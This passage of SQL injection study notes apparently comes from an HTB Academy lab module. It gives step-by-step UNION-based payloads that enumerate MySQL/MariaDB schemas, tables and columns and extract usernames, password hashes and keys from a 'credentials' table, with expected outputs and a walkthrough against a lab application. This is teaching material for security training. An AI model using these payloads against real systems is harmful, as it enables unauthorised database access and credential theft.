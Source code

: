 **Filter Strategy:**
```sql
-- Ignore default databases
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA where schema_name not in ('mysql','information_schema','performance_schema','sys')-- -
```

#### Step 3: Enumerate Tables in Target Database
```sql
-- List tables in current database
cn' UNION select 1,table_name,3,4 from INFORMATION_SCHEMA.TABLES where table_schema=database()-- -

-- List tables in specific database (more useful)
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

-- Expected output:
-- credentials | dev
-- posts | dev  
-- framework | dev
-- pages | dev
```

#### Step 4: Enumerate Columns in Target Table
```sql
-- List columns in interesting table
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

-- Expected output:
-- username | credentials | dev
-- password | credentials | dev
```

#### Step 5: Extract Data
```sql
-- Extract data using discovered structure
cn' UNION select 1, username, password, 4 from dev.credentials-- -

-- Expected output:
-- admin | 9a3e... (hash)
-- dev_admin | 1fe8... (hash) 
-- api_key | secret_key_123
```

### HTB Academy Practical Example

**Scenario:** ilfreight application with dev database containing credentials

**Complete Enumeration Walkthrough:**
```sql
-- 1. Fingerprint MySQL
cn' UNION select 1,@@version,3,4-- -
-- Result: "10.3.22-MariaDB-1ubuntu1"

-- 2. Current database  
cn' UNION select 1,database(),3,4-- -
-- Result: "ilfreight"

-- 3. All databases
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
-- Results: mysql, information_schema, performance_schema, ilfreight, dev

-- 4. Tables in dev database
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
